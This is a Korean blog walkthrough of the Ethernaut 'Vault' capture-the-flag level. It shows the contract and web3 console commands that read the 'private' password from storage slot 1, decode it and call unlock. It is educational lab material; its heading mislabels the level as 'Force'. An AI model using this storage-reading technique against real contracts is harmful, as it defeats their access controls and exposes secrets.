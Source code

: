 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 8) Vault
date: '2022-01-10 19:18:00'
author: 한성원
tags: ethernaut Vault vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- vault를 unlock하면 승리한다.
- locked 변수를 false로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Vault {

    bool public locked;
    
    // private으로 정의된 비밀번호
    bytes32 private password;

    // constructor: password를 parameter로 받음
    constructor(bytes32 _password) public {
        // valut의 lock을 건다
        locked = true;
        // parameter password를 private 변수에 저장
        password = _password;
    }

    // 올바른 비밀번호를 입력하면 vault를 unlock할 수 있는 function
    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 vault를 unlock하는 것이다.

위에 코드에서 보다싶이 우리는 올바른 비밀 번호를 가지고 unlock()을 실행시키면 vault를 unlock 할 수 있다는 것을 알 수 있다. 여기서 유심히 봐야할 점은 password가 smart contract에 저장되어 있다는 점이다. 블록체인 특성상 private으로 정의되었어도 외부에서 정보를 확인할 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 우리는 web3 library를 사용한다.
// getStorageAt API를 사용하여 storage의 slot 1에 저장되어 있는 32 bytes의 data를 가져온다.
// 결과 값: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
await web3.eth.getStorageAt(instance, 1)

// 얻은 password와 함꼐 unlock()을 실행시키면 vault가 unlock 된다!
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

// 얻은 password를 우리가 읽을 수 있게 바꾸고 싶다면?
// 결과 값: 'A very strong secret password :)'
await web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이 문제를 완벽하게 이해하기 위해서는 slot, 즉 storage에 대한 깊은 이해가 필요하다. slot은 2^256개가 존재하며 각각 32 bytes를 store할 수 있다. variable type에 따라 하나의 slot에 여러개의 변수가 저장될 수 있으며 slot의 우측에서부터 저장된다.

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- selfdestruct 취약점: https://holyhansss.github.io/vulnerability/selfdestruct/selfdestruct/

```toc

```